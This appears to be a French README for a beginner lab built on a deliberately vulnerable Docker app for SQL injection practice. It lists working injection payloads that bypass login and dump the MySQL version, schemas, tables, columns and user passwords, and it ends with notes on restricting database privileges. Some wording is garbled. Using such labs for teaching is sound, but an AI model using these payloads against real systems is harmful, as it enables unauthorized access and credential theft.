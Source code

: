 # Docker Vulnerable App SQL Injection

*Niveau: Débutant*

![](readme_docs/a22c71cd.png)

---

# Objectif

Tester la vulnérabilité d'une application en injectant du SQL.

---

# Notions à étudier

- Injection SQL

---

# Configuration

Les Fenelon sont stockés dans le fichier **int.sql** ligne **53**

Il est nécessaire d'aller modifier les 3words avant de démarrer le container.

---

# Lancement du container

```bash
docker-compose up --env-file .env -d
```

Accès à l'application vulnérable:

![](readme_docs/cf88d548.png)

http://localhost:8080

---

## Example Payloads

1. Normal login to get users salary:
    - `username`: `james_kirk`
    - `password`: `kobayashi_maru`

2. Dump username and salary of all users:
    - `username`: `' OR 1=1#`
    - `password`: `anythingyouwant`

3. Dump MySQL version:
    - `username`: `' UNION SELECT null,@@version#`
    - `password`: `anythingyouwant`

4. Dump all server databases

   - `username`: `' UNION ALL SELECT NULL,concat(schema_name) FROM information_schema.schemata; #`
   - `password`: `anythingyouwant`

5. Dump all tables in a database (here: capturethefenelon)

   - `username`: `' UNION ALL SELECT NULL,concat(TABLE_NAME) FROM information_schema.TABLES WHERE table_schema='capturethefenelon' #`
   - `password`: `anythingyouwant`

6. Dump all columns names in a table (here: users)

   - `username`: `' UNION ALL SELECT NULL,concat(column_name) FROM information_schema.COLUMNS WHERE TABLE_NAME='users' #`
   - `password`: `anythingyouwant`

7. Dump all data in a table (here: users)

   - `username`: `' UNION ALL SELECT NULL,concat(0x28,username,0x3a,first_name,0x3a,last_name,0x3a,password,0x29) FROM users #`
   - `password`: `anythingyouwant`

---

# Propositions des étudiants:

1. Le nom de l'utilisateur et le nom de la table **doivent** être connus

> On ne voit pas le code du fenelon!

```sql
fenelon'; SELECT * FROM users; --
```

SELECT table_name FROM information_schema.tables WHERE table_schema = 'capturethefenelon


Doivent le faire avec sqlmap
Fournir le TP sqlmap

https://www.advania.co.uk/insights/blog/mysql-sql-injection-practical-cheat-sheet/?lai_vid=yAN64pOwgSeOd&lai_sr=45-49&lai_sl=m

---

# Mettre à jour la base

Dans le container **03-docker-vulnerable-app-sqlinjection-mysql**, en tant que **root**:

```sql
update users set first_name='chien', last_name='racheter', password='supérieur' where username='fenelon';
select * from users where username = 'fenelon';
```
---

# Mise à jour

Faire un utilisateur dont les droits sont limités à du simple insert ou select, pas de update

```sql
-- Revoke Privileges on update to simple user: fenelon
REVOKE ALL ON capturethefenelon FROM 'fenelon'@'%';

-- Grant only SELECT privileges to user fenelon
GRANT SELECT ON capturethefenelon TO 'fenelon'@'%';
```